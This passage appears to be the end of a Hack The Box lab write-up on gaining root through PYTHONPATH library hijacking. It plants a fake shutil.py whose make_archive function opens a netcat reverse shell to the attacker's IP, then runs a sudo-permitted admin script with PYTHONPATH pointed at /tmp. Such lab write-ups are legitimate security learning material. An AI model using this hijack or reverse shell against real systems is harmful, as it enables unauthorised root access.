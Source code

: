 > **Its using the module shutil and there is a function call of function make_archive.**

# []() PYTHONPATH Hijacking

* first i find these Blogs [Blog 1](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8), [Blog 2](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7) and its helped me.

* now we know that we can run the admin_tasks script as root, and we can set the path as root, so i will create a reverse shell and set the PYTHONPATH to the dir of my reverse shell.

* let's go

* **go to /tmp/ and create a shutil.py which will contain my reverse shell.**

> **shutil.py**

```ruby
import os
def make_archive(dst, gzta, src):
        os.system("nc 10.10.16.34 1234 -e /bin/sh")

```

* now let's set the pythonPath to my reverse shell dir and run the admin_tasks script.

> **sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh**

* choose the option 6.

> note: when we set the PYTHONPATH to my reverse shell dir which is **shutil.py** script the backup.py will find the shutil.py in this path and run it instead of the real shutil.py 

![](https://i.ibb.co/tmY7B5j/rooted.png)

* Thanks For Reading.

* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>

